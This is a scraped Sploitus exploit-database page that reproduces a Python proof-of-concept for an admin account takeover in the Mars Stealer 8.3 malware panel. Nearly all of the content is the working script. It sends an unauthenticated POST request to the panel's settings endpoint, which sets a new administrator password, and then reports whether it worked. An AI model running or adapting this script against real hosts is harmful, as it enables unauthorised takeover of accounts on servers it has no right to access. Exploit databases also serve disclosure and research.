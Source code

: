 ```yaml
---
title: Mars Stealer 8.3 - Admin Account Takeover exploit
url: https://sploitus.com/exploit?id=EDB-ID:51392&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-04-26
fetch_date: 2025-10-04T11:32:41.546267
---
```


# Mars Stealer 8.3 - Admin Account Takeover exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Mars Stealer 8.3 - Admin Account Takeover

2023-04-25 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51392
# Exploit Title: Mars Stealer 8.3 - Admin Account Takeover
# Product: Mars Stelaer
# Technology: PHP
# Version: < 8.3
# Google Dork: N/A
# Date: 20.04.2023
# Tested on: Linux
# Author: Sköll - twitter.com/s_k_o_l_l

import argparse
import requests

parser = argparse.ArgumentParser(description='Mars Stealer Account Takeover Exploit')
parser.add_argument('-u', '--url', required=True, help='Example: python3 exploit.py -u http://localhost/')
args = parser.parse_args()

url = args.url.rstrip('/') + '/includes/settingsactions.php'
headers = {"Accept": "application/json, text/javascript, */*; q=0.01", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Sköll", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Origin": url, "Referer": url, "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US;q=0.8,en;q=0.7"}
data = {"func": "savepwd", "pwd": "sköll"} #change password
response = requests.post(url, headers=headers, data=data)

if response.status_code == 200:
    print("Succesfull!")
    print("New Password: " + data["pwd"])
else:
	print("Exploit Failed!")
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)